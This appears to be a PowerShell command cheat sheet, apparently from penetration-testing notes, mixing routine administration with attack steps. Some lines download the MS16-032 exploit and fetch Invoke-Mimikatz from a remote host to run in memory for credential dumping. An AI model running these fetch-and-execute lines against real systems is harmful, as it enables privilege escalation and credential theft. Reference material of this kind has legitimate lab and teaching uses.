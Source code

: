 Powershell Commands

Run Powershell Commands from Command Prompt

~~~PowerShell
powershell -c “<Command to run>”
~~~

Run Powershell File (.ps1) from Command Line

~~~PowerShell
powershell -ExecutionPolicy bypass -f "powershell_file.ps1" -parameter data
~~~

Download File/Executable from HTTP Server

~~~PowerShell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.7.30/Windows/ms16-032.ps1','MS16-032.ps1')"
~~~

Download File/Executable from HTTP Server and Execute in Memory with Arguments

~~~PowerShell
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.19.55/Windows/Powershell/Nishang/Gather/Invoke-Mimikatz.ps1');Invoke-Mimikatz
~~~

Run Executable As Its Own Process

~~~PowerShell
Start-Process "shell-name.exe"
~~~

Determining Available Tokens for Impersonation

~~~PowerShell
whoami /priv
~~~

Stopping and Starting Services

~~~PowerShell
sc stop <servicename>
sc start <servicename>
~~~

Querying Service Configurations

~~~PowerShell
sc qc <servicename>
~~~

Querying Service States

~~~PowerShell
sc query <servicename>
~~~

Setting Password as Convert to Secure String for use with Setting a DomainUserPassword

~~~PowerShell
$UserPassword=ConvertTo-SecureString ‘P@ssw0rd1234’ -AsPlainText -Force
Set-DomainUserPassword -Identify <DomainUserAccount> -AccountPassword $UserPassword
~~~

Parameters within scripts

~~~PowerShell
<#
Sets parameters for scripting that can be used in the command line
.ex
script.ps1 -Variable1 V1Data -Variable2 V2Data -Variable3 V3Data
#>
param ($Variable1, $Variable2, $Variable3)
~~~

Setting Password for Local Users

~~~PowerShell
$Password = ConvertTo-SecureString $Pass -AsPlainText -Force
$UserAccount = Get-LocalUser -Name "user"
$UserAccount | Set-LocalUser -Password $Password
~~~

Renaming Computer

~~~PowerShell
Rename-Computer -NewName $CompName
~~~

Setting Bitlocker Key and then Creating a file with the recovery key information

~~~PowerShell
#Set Bitlocker key
Enable-BitLocker -MountPoint "C:" -RecoveryPasswordProtector -EncryptionMethod XtsAes256 -UsedSpaceOnly -SkipHardwareTest
#Create text file with Recovery Key Information
$BVol = Get-BitLockerVolume -MountPoint "C"
$Bvol.KeyProtector > C:\Users\user\Documents\recovery.txt
~~~

